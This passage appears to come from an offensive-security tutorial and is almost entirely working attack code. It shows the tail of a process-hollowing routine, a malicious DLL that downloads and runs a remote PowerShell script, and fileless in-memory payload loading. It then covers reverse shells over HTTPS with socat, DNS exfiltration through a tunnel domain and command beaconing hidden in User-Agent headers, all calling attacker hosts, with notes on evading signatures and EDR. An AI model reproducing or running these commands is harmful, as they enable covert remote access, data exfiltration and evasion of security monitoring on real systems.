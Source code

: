 ```bash
    ResumeThread(pi.hThread);
    
    return 0;
}
EOF

# DLL injection technique
cat > dll_inject.c << 'EOF'
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        // Execute payload when DLL is loaded
        system("powershell -c \"IEX(New-Object Net.WebClient).downloadString('http://192.168.1.5/shell.ps1')\"");
    }
    return TRUE;
}
EOF

# Compile DLL
x86_64-w64-mingw32-gcc -shared -o malicious.dll dll_inject.c

# Memory-only execution (fileless)
# PowerShell reflection to load assembly from memory
$assembly = [System.Reflection.Assembly]::Load($payloadBytes)
$type = $assembly.GetType("PayloadNamespace.PayloadClass")
$method = $type.GetMethod("ExecutePayload")
$method.Invoke($null, $null)

# Why advanced evasion is necessary:
# - Signature-based detection catches known payloads
# - Behavioral analysis detects suspicious activities
# - EDR systems monitor process execution chains
# - Memory-only execution avoids file-based detection
# - Process hollowing hides malicious code in legitimate processes
```

### **Network-Level Evasion**

**What network evasion involves:** Disguising reverse shell traffic as legitimate network communications to bypass network-based detection systems.

```bash
# HTTPS reverse shells (encrypted, appears legitimate)
# Generate SSL certificate
openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.cert -days 365 -nodes

# HTTPS listener using socat
socat OPENSSL-LISTEN:443,cert=server.cert,key=server.key,fork EXEC:/bin/bash

# HTTPS reverse shell client
socat OPENSSL:attacker.com:443,verify=0 EXEC:"/bin/bash -li",pty,stderr,setsid,sigint,sane

# DNS-based reverse shells
# Use DNS queries to exfiltrate data and receive commands
nslookup $(echo "whoami" | base64).tunnel.attacker.com

# HTTP-based reverse shells using user agents
# Embed commands in HTTP User-Agent headers
curl -H "User-Agent: $(echo 'ls -la' | base64)" http://attacker.com/beacon

# WebSocket reverse shells
cat > websocket_shell.html << 'EOF'
```